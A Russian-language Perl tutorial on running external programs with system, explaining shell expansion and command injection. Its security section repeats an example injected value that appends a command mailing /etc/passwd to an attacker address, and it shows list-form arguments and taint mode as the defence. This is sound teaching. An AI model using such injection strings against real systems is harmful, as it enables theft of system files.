 ```yaml
---
title: "Запуск внешних программ из Perl с помощью system"
timestamp: 2013-10-22T12:00:02
tags:
  - system
published: true
original: running-external-programs-from-perl
books:
  - beginner
author: szabgab
translator: spidamoo
---
```



Зачастую Perl используют как обертку вокруг других программ. Другими словами, мы запускаем внешние
программы из нашей Perl-программы.

Наприем, мы используем Perl, чтобы собрать нужные параметры, так что нам будет проще написать нужную
команду для запуска другой программы в командной строке.

Или нам может понядобиться собрать вывод в командной строке другой программы, и затем принять 
какие-то решения, основываясь на этом выводе.

Perl дает нам много разных решений для этого. Мы рассмотрим некоторые из них.


## system

По-видимому самое простое из них - функция `system`. В самом базовом виде она принимает 
текст, который надо написать в командной строке, чтобы выполнить внешнюю команду.

Например, на машинах с Unix/Linux существует команда &laquo;adduser&raquo;, которая создает 
пользовательский аккаунт. Ее можно запустить так:

`/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo`

Так что, если нам надо выполнить ее из скрипта perl, это можно сделать так:

```perl
  system('/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo');
```

Такой код запустит команду adduser. Любой вывод или ошибки, которые выдаст adduser, появятся на 
вашем экране.

Строку для выполнения можно сформировать динамически. Следующие примеры дадут тот же результат:

```perl
  my $cmd = '/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo';
  system($cmd);
```

```perl
  my $cmd = '/usr/sbin/adduser';
  $cmd .= ' --home /opt/bfoo';
  $cmd .= ' --gecos "Foo Bar" bfoo';
  system($cmd);
```

## system с несколькими аргументами

Функция `system` может принимать больше одного аргумента. Пример выше можно было выполнить 
так:
```perl
  my @cmd = ('/usr/sbin/adduser');
  push @cmd, '--home';
  push @cmd, '/opt/bfoo';
  push @cmd, '--gecos',
  push @cmd, 'Foo Bar',
  push @cmd, 'bfoo';
  system(@cmd);
```

В данном случае все показанные примеры работают одинаково, но в жизни эти подходы могут применяться
для разных целей.

## Расширение оболочки

Предположим, у нас есть программа <b>checkfiles</b>, которая проверяет список файлов, переданный ей
в командной строке. Ее можно вызвать так: <b>checkfiles data1.txt data2.txt</b> или так: 
<b>checkfiles data*.txt</b>, чтобы проверить все файлы, название которых начинается с 
&laquo;data&raquo;, затем идут какие-то другие символы, и затем расширение &laquo;txt&raquo;. Этот
второй способ будет работать в системах Unix/Linux, где оболочка расширяет &laquo;data*.txt&raquo;
до списка всех файлов, которые подходят под это описание. Когда программа <b>checkfiles</b> 
выполняется, она уже видит список файлов: <b>checkfiles data1.txt data2.txt data42.txt 
database.txt</b>. Но не так это работает в Windows, где командная строка не делает этого расширения.
В Windows программа получит на вход &laquo;data*.txt&raquo;.

Причем тут наш скрипт Perl, спросите вы?

В Windows это не важно. Однако, в Unix/Linux, если вы запустите программу &laquo;checkfiles&raquo;
изнутри скрипта Perl одной строкой `system("checkfiles data*.txt")`, Perl передаст эту строку
оболочке. Оболочка выполнит свое расширение и программа &laquo;checkfiles&raquo; увидит список 
файлов. С другой стороны, если вы передадите саму команду и ее параметры в отдельных строках: 
`system("checkfiles", "data*.txt")`, то perl запустит непосредственно программу 
&laquo;checkfiles&raquo; и передаст ей один параметр &laquo;data*.txt&raquo;, не проводя расширения.

Как вы можете видеть, передача всей команды целиком в одной строке имеет свои преимущества.

Однако, эти преимущества не достаются бесплатно.

## Риск безопасности

Вызов system с единственным параметром и передача всей команды таким способом может быть угрозой 
безопасности, если вводимые данные поступают из непроверенных источников. Например, прямо из 
веб-формы. Или из лог-файла, созданного веб-сервером.

Предположим, мы получаем параметры для checkfiles из сомнительного источника:

```perl
  my $param = get_from_a_web_form();
  my $cmd = "checkfiles $param";
  system($cmd);
```

Если пользователь ввел в форме &laquo;data*.txt&raquo;, то все в порядке. Переменная `$cmd`
получит значение `checkfile data*.txt`.

С другой стороны, если пользователь подставит другие, более &laquo;хитрые&raquo; параметры, это 
может вызвать неприятности. Например, если пользователь напишет `data*.txt; mail 
blackhat@perlmaven.com &lt; /etc/passwd`, то команда, которую запустит perl, будет такой:
`checkfile data*.txt; mail darkside@perlmaven.com &lt; /etc/passwd`.

Оболочка сначала выполнит команду &laquo;checkfile data*.txt&raquo;, как нам и нужно, но затем она 
пойдет дальше, и выполнит команду &laquo;mail...&raquo;. В результате ваш файл с паролями отправится
прямиком на темную сторону.

Если бы наш скрипт Perl вызывал `system` с несколькими параметрами, мы бы избежали этого 
риска. Если наш код такой:

```perl
  my $param = get_from_a_web_form();
  my @cmd = ("checkfiles", $param);
  system(@cmd);
```

И пользователь вводит `data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`, то Perl 
запустит программу &laquo;checkfiles&raquo; и передаст ей один аргумент: `data*.txt; mail 
blackhat@perlmaven.com &lt; /etc/passwd`. Расширения оболочки не будет, но мы также избежим
ее опасностей. Команда &laquo;checkfiles&raquo;, возможно, пожалуется, что не может найти файл
`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`, но во всяком случае наши пароли
в безопасности.

## Заключение и рекомендации к дальнейшему чтению

Более распространенный подход - собрать одну строку и передать ее функции `system`, но, если
входные данные поступают из сомнительного источника, это легко может стать направлением атаки. Риск
можно сократить, если сопоставлять входные данные с <b>белым списком</b> допутимых символов. Вы 
можете заставить себя всегда думать об этом, включив <b>taint mode</b> с помощью флага `-T` в
инициализирующей строке (sh-bang) вашего скрипта.

Вы можете узнать больше из 
[официальной документации по system](http://perldoc.perl.org/functions/system.html).

